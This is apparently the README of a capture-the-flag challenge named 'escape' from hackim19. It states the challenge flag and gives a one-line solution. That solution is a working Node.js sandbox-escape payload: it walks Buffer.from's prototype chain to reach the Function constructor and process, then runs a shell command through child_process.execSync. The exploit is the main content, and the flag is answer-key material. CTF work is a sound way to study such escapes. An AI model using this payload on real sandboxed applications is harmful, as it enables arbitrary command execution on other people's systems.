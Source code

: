 # name: escape

# flag: hackim19{S@ndbox_0_h4cker_1}

# solution

- Object.getOwnPropertyDescriptor(Buffer.from.__lookupGetter__("__proto__").call(Buffer.from),"constructor").value("return+process")().mainModule.require("child_process").execSync("cat+iamnotwhatyouthink").toString()

#Installation
- run ./start.sh
